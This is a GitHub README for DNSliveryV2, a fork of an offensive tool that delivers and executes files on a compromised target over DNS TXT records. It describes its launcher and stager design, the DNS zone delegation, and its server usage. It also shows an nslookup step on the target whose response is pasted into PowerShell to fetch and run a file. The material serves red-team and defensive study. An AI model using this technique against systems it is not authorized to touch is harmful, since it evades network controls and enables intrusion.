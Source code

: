 ![python-3.12](https://img.shields.io/badge/python-3.12-blue.svg)
[![Known Vulnerabilities](https://snyk.io/test/github/no0be/DNSlivery/badge.svg?targetFile=requirements.txt)](https://snyk.io/test/github/no0be/DNSlivery?targetFile=requirements.txt)

# DNSliveryV2
## Note
I give all credit to the original author for their work. I will be adding documentation and additional features. Since I saw old PULL requests (3+ years), I decided to make my own fork. 

## Old Documentation 
Easy files and payloads delivery over DNS.

- [DNSlivery](#dnslivery)
- [Acknowledgments](#acknowledgments)
- [Description](#description)
  - [TL;DR](#tldr)
  - [What problem are you trying to solve?](#what-problem-are-you-trying-to-solve)
  - [How does it work?](#how-does-it-work)
  - [Requirements](#requirements)
- [Setup](#setup)
  - [DNS Zone](#dns-zone)
  - [DNSlivery](#dnslivery-1)
- [Usage](#usage)
  - [Server](#server)
  - [Target](#target)

# Acknowledgments
This project has been originally inspired by [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) and [Joff Thyer](https://twitter.com/joff_thyer)'s technical segment on the Paul's Security Weekly podcast #590 ([youtu.be/CP6cIwFJswQ](https://youtu.be/CP6cIwFJswQ)).

# Description
## TL;DR
DNSlivery allows to deliver files to a target using DNS as the transport protocol.

**Features**:
- allows to print, execute or save files to the target
- does not require any client on the target
- does not require a full-fledged DNS server

![demo-target.git](img/demo-target.gif)

## What problem are you trying to solve?
Easily deliver files and/or payloads to a compromised target where classic web delivery is not possible and **without the need for a dedicated client software**. This applies to restricted environments where outgoing web traffic is forbidden or simply inspected by a curious web proxy.

![web-delivery-blocked.png](img/web-delivery-blocked.png)

Even though more complete DNS tunneling tools already exist (s.a. [dnscat2](https://github.com/iagox86/dnscat2) and [iodine](https://code.kryo.se/iodine/)), they all require to run a dedicated client on the target. The problem is that there is probably no other way then DNS to deliver the client in such restricted environments. In other words, building a DNS communication channel with these tools require to already have a DNS communication channel.

In comparison, DNSlivery only provides one-way communication from your server to the target but does not require any dedicated client to do so. Thus, if you need to build a reliable two-way communication channel over DNS, use DNSlivery to deliver the client of a more advanced DNS tunneling tool to your target.

## How does it work?
Just like most DNS tunneling tools, DNSlivery uses `TXT` records to store the content of files in their base64 representation. However, it does not require to setup a full-fledged DNS server to work. Instead, it uses the [scapy](https://scapy.net/) library to listen for incoming DNS packets and craft the desired response. 

![network-process.png](img/network-process.png)

As most files do not fit in a single `TXT` record, DNSlivery will create multiple ordered records containing base64 chunks of the file. As an example, the above diagram illustrates the delivery of the 42<sup>nd</sup> chunk of the file named `file`.

In order to retrieve all base64 chunks and put them back together without the need for a dedicated client on the target, DNSlivery will generate for every file:

- a simple cleartext launcher
- a reliable base64 encoded stager

![two-stages-delivery.png](img/two-stages-delivery.png)

This two-stages delivery process is required to add features to the stager (s.a. handling lost DNS responses) that would otherwise not fit in a single `TXT` record.

### Note on target compatibility
Currently, only PowerShell targets are supported. However, DNSlivery could be improved to support additional targets such as bash or python. Please let me know [@no0be](https://twitter.com/no0be) if this is a feature that you would like to see being implemented.

## Requirements
DNSlivery does not require to build a complex server infrastructure. In fact, there are only two simple requirements: 

- be able to create a `NS` record in your public DNS zone
- have a Linux server capable of receiving `udp/53` traffic from the Internet

# Setup
## DNS Zone
The first step is to delegate a sub-domain to the server that will run DNSlivery by creating a new `NS` record in your domain. As an example, I created the following record to delegate the sub-domain `dnsd.no0.be` to the server at `vps.no0.be`.

```
dnsd    IN  NS vps.no0.be.
```

If your zone is managed by a third-party provider, refer to their documentation to create the `NS` record.

## DNSlivery
The only requirements to run DNSlivery are `python3` and its `scapy` library.
```bash
git clone https://github.com/no0be/DNSlivery.git && cd DNSlivery
pip install -r requirements.txt
```

# Usage
## Server
DNSlivery will serve all files of a given directory (`pwd` by default) and needs to be **run with root privileges** to listen for incoming `udp/53` packets.

```
usage: dnslivery.py [-h] [-p PATH] [-s SIZE] [-v] interface domain nameserver

DNSlivery - Easy files and payloads delivery over DNS

positional arguments:
  interface             interface to listen to DNS traffic
  domain                FQDN name of the DNS zone
  nameserver            FQDN name of the server running DNSlivery

optional arguments:
  -h, --help            show this help message and exit
  -p PATH, --path PATH  path of directory to serve over DNS (default: pwd)
  -s SIZE, --size SIZE  size in bytes of base64 chunks (default: 255)
  -v, --verbose         increase verbosity
```

**Example**: 
```
$ sudo python3 dnslivery.py eth0 dnsd.no0.be vps.no0.be -p /tmp/dns-delivery

DNSlivery - Easy files and payloads delivery over DNS

[*] File "file" ready for delivery at file.dnsd.no0.be (7 chunks)
[*] Listening for DNS queries...
```

### Note on filename normalization
As the charset allowed for domain names is much more restrictive than for UNIX filenames (per [RFC1035](https://tools.ietf.org/html/rfc1035#section-2.3.1)), DNSlivery will perform normalization when required.

**Example**:
```
[*] File "My Awesome Powershell Script ;).ps1" ready for delivery at my-awesome-powershell-script----ps1.dnsd.no0.be (1891 chunks)
```

**Be aware that the current normalization code is not perfect as it does not take overlapping filenames or size limit into account.**

## Target
On the target, start by **retrieving the launcher** of the desired file by requesting its dedicated `TXT` record. The following three launchers are supported:

| Action  | Launcher                    | Description                                           |
| ------- | --------------------------- | ----------------------------------------------------- |
| Print   | `[filename].print.[domain]` | (**Default**) Print the delivered file to the console |
| Execute | `[filename].exec.[domain]`  | Execute the delivered file (useful for scripts)       |
| Save    | `[filename].save.[domain]`  | Save the delivered file to disk (useful for binaries) |

```cmd
nslookup -type=txt [filename].[stager].[domain]
```

Then, simply **copy and paste the launcher quoted in the DNS response to a PowerShell console** to retrieve the file on the target.

**Example**:

![demo-target.git](img/demo-target.gif)
